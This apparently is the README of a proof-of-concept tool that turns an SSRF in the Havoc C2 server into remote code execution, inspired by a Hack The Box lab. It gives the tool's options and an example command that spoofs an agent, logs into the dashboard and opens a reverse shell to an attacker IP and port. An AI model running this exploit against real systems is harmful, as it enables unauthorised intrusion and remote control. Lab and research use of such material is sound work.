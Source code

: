 # Havoc SSRF RCE PoC

Havoc RCE via SSRF.
Inspired by the HTB machine Backfire and the [havoc SSRF PoC](https://github.com/chebuya/Havoc-C2-SSRF-poc) by chebuya

Help:
```bash
usage: havoc_ssrf.py
[-h] --help   exploit help
-t --target   target host in url format es. https://192.168.1.10/
-i --ip    The IP to open the socket with (internal IP like 127.0.0.1)
-p --port    The port to open the socket with (internal port, usually 40056)
[-A USER_AGENT]    User agent to use for packets  (for havoc dashboard)
[-H HOSTNAME]    Hostname of Windows machine to use  (for havoc dashboard) 
[-u USERNAME]    username of spoofed agent (for havoc dashboard)
[-d DOMAIN_NAME]  domain of the fake connection (for havoc dashboard)
[-n PROCESS_NAME]  process name of the beacon  (for havoc dashboard)
[-ip INTERNAL_IP]  internal ip of the havoc server
-a ATTACKER_IP -ap        attacker port for revshell connection
[-hu HAVOC_USER]    havoc user to perform login to the dashboard and launch exploit
[-hp HAVOC_PASSWORD]  havoc password to login to the dashboard
```

example usage:
```bash
python3 havoc_ssrf.py --target https://192.168.1.100 -i 127.0.0.1 -p 40056 --attacker-ip 10.10.10.15 -ap 4444 -hu 'havoc_user' -hp 'HavoCpAssworD!'
```
